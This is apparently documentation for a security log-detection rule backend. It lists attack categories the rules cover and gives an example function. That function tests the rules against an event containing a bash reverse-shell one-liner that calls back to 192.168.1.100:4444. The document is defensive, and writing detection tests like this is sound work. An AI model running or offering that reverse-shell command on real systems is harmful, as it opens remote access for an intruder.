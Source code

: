    - Sudo abuse
   - Su commands
   - Setuid exploitation

3. **Credential Theft**

   - Shadow file access
   - SSH key access
   - Password file access

4. **Network Attacks**

   - Port scanning
   - Mass scanning
   - Network reconnaissance

5. **Web Exploitation**

   - PHP shells
   - SQL injection
   - XSS attacks

6. **Defense Evasion**

   - Log clearing
   - History manipulation
   - File deletion

7. **Persistence**

   - Cron job creation
   - Service installation
   - Startup script modification

8. **Malware**
   - Known malicious tools
   - Backdoors
   - Rootkits

## Functions

### example_usage()

Demonstration function showing basic usage patterns.

```python
def example_usage():
    # Initialize backend
    backend = SimpleEvalBackend(restrictiveness=RestrictivenessLevel.BALANCED)

    # Load rules
    rule_collection = MockRuleCollection()
    compiled_rules = backend.compile(rule_collection)

    # Test event
    test_event = {
        "MESSAGE": "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1",
        "_COMM": "bash",
        "_CMDLINE": "bash -i >& /dev/tcp/192.168.1.100/4444 0>&1",
    }

    # Evaluate
    for rule_func in compiled_rules:
        alert = backend.test_rule_against_event(rule_func, test_event)
        if alert:
            print(f"Alert: {alert.rule_title}")
```
